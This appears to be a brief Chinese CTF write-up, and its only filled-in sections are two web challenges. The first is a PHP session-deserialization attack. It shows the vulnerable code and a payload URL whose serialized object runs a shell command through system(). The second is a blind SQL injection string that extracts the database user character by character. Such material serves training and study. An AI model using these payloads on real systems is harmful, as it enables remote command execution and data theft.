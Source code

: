 
# web
### ser2
#session反序列化
- index.php
```php
<?php  
show_source("index.php");  
session_start();  
class Exec{  
    public $commond;  
    function __destruct(){      system($this->commond);  
    }  
  }  
$str = new Exec();  
?>
```

- phpinfo.php
```php
<?php  
error_reporting(0);  
show_source("phpinfo.php");  
ini_set('session.serialize_handler','php_serialize');  
session_start();  
$_SESSION['aaa'] = $_GET['aaa'];  
phpinfo();  
?>
```

*payload*
`/phpinfo.php?aaa=|O:4:"Exec":1:{s:7:"commond";s:16:"ls /var/www/html";}`
发送后访问`index.php` 即可

![!img](https://img.php.cn/upload/article/000/000/067/be69afd137ffe0e5382767c78090c8c8-0.png)



### web2
#sql 

```
username=admin' %26%26(ascii(mid(user()from(2)for(1)))=111)#&password=admi&submit=1
```
# reverse

# pwn

# crypto

# Misc



# pentest

### 

### 正向代理


---
## *相关wp*




2023-05-28   00:41